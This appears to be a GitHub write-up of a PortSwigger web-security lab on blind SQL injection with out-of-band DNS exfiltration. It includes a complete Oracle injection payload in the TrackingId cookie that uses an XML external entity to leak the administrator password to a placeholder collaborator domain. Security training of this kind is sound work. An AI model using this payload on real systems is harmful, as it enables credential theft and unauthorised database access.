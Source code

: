 # SQL Injection - Blind SQLi with out-of-band data exfiltration

## 📌 Lab Details
- **Title**: Blind SQL injection with out-of-band data exfiltration
- **Difficulty**: Practitioner
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/365ed5e4a7dbea87f7a659dd1349317f193bd4449f6ab6ed8062e5a319f553c6?referrer=%2fweb-security%2fsql-injection%2fblind%2flab-out-of-band-data-exfiltration

## 🔍 Summary
This lab shows how to exploit **blind SQL injection with out-of-band DNS exfiltration** to extract the administrator’s password from the database by forcing the server to leak it via a DNS request to your Burp Collaborator.

## 🛠 Steps to Solve
1. Use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie and inject the payload: `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'YOUR-COLLABORATOR-DOMAIN">+%25remote%3b]>'),'/l')+FROM+dual--`.
3. Go to the **Collaborator** tab and click "Poll Now".
4. The password of the `administrator` user should appear in the subdomain of the interaction, and you can view this within the Collaborator tab.
5. Log in as the `administrator` and complete the lab.

## 📖 Key Takeaways
- Blind SQLi can be used to **exfiltrate sensitive data via DNS OOB**, even when no response changes are visible.
- Using **Oracle’s** `EXTRACTVALUE` **with XML external entities** can leak database values in DNS requests.
- Burp Collaborator captures the DNS requests, revealing the extracted administrator password for login.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/e6991839-06b7-4df7-9ae3-bb77d5181a25)
![image](https://github.com/user-attachments/assets/606e51c8-66ba-4dd6-8888-3023345c90ce)
![image](https://github.com/user-attachments/assets/e358bf4a-7a9d-44ae-bd3f-cddda69e834f)
![image](https://github.com/user-attachments/assets/61e6c930-d9aa-468e-8ee4-03f3fc24e41d)
